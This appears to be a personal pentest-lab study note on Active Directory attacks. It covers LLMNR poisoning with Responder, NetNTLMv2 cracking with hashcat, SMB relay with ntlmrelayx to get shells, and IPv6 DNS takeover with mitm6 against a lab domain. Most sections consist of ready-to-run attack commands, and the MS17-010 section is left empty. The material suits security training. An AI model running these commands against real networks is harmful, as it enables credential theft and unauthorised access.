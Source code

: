**1 Netbios && LLMNR Name Poisoning**
**2 Relay Attacks**
**3 MITM6**
**4 MS17-010**
**5 Kerberoasting**

---

**1. LLMNR (link local multicasting name resolution:: basically DNS) Poisoning:**

- needs traffic - ideal before nmap/nessus scans
- responder:

  `python /usr/share/responder/Responder.py -L eth0 -rdwv`

  a) try to access attacker IP address::\ ![llmnr_poison](E:\Users\Carl\Documents\Notes\Ethical\Screenshots\admin_malz_llmnr_poison.png)

  `hashcat -m 5600 windowshash.txt /usr/share/wordlists/rockyou.txt # --m 5600 module for NetNTLMv2`

---

**2. SMB Relay attacks:**

- Requirements: SMB signing must be disabled, relayed user creds must be admin on machine, && network sharing enabled
- setup ntlmrelay:: ![ntlmrelay.py](E:\Users\Carl\Documents\Notes\Ethical\Screenshots\ntlmrelay_py.png)
  a) Find machines w/ smb enabled: Nessus or Nmap:


`/opt/impacket/examples/$ python3ntlmrelayx.py -tf targets.txt -smb2support (-i) #python3 -m pip install . ## -i interactive`

- Working but keeps failing::\ ![revmalz](Screenshots/revshell_smb_malz.png)
  &&\ ![break](Screenshots/malz_smb_breaking.png)
- shells W/ creds::\ ![shells](E:\Users\Carl\Documents\Notes\Ethical\Screenshots\meterpreter_psexec_shells.png) \
  *wmiexec.py && smbexec.py first! psexec and smb metepreter is very noisy*

---

**3. Pv6 Attacks: DNS relay:**

*Requirements, must have certificate in DC: manage -> add role/feature -> next(3x) -> AD cert services -> CA -> next && restart -> install -> validity period 99yrs*

Setup relay && ipv6 spoofing:

a. `/opt/mitm6/mitm6$ sudo python3 mitm6.py -d carbon.local #(DC) `
b. `/opt/impacket/examples$ sudo python3 ntlmrelayx.py -6 -t ldaps://192.168.86.205 -wh fakewpad.carbon.local -l lootme`
c. `xdg-open /opt/impacket/examples/lootme/domain_users_by_group.html`

![IPv6_relay](E:\Users\Carl\Documents\Notes\Ethical\Screenshots\relay_ipv6.png)

---

4. MS17-010\

---

[tutorial] (https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa)
[PW list] (https://github.com/danielmiessler/SecLists/tree/master/Passwords)
[impacket] (https://github.com/SecureAuthCorp/impacket)
[mitm6] (https://github.com/dirkjanm/mitm6)\
